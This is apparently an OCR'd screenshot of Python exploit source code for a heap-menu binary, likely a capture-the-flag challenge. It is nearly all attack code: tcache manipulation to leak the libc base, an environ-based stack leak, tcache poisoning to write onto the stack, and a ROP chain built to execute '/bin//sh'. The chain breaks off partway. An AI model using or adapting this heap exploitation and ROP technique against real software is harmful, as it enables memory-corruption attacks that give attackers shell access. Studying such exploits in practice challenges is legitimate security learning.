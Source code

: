 # ---------------------------------------

for i in range(10):
    alloc(i, 0x90)
for i in range(7):
    free(i)

free(8)

offset = 0x3afca0
libc_base = view(8) - offset
print(f"Leaked libc base address: {hex(libc_base)}")
libc.address = libc_base

# ---------------------------------------
# Stack Leak
# ---------------------------------------

environ_offset = 0x3b2098

environ_addr = libc.address + environ_offset
edit(6, 0x8, p64(environ_addr))
alloc(0,0x90)
alloc(1,0x90)
stack_addr = view(1)
print(f'Stack address is: {hex(stack_addr)}')

# ---------------------------------------
# Ropchain onto the Stack
# ---------------------------------------

for i in range(7):
    alloc(i, 0x60) # different tcache for clarity
for i in range(7):
    free(i)
edit(6,0x8,p64(stack_addr - 0x120))
alloc(0,0x60)
alloc(1,0x60)

from struct import pack

# Padding goes here
p = b''

p += pack('<Q', libc.address + 0x0000000000001b96) # pop rdx ; ret
p += pack('<Q', libc.address + 0x00000000003af1a0) # @ .data
p += pack('<Q', libc.address + 0x0000000000037a58) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', libc.address + 0x000000000002db3c) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', libc.address + 0x0000000000001b96) # pop rdx ; ret
p += pack('<Q', libc.address + 0x00000000003af1a8) # @ .data + 8
p += pack('<Q', libc.address + 0x0000000000094115) # xor rax, rax ; ret
p += pack('<Q', libc.address + 0x000000000002db3c) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', libc.address + 0x000000000002154d) # pop rdi ; ret
p += pack('<Q', libc.address + 0x00000000003af1a0) # @ .data
p += pack('<Q', libc.address + 0x000000000002145c) # pop rsi ; ret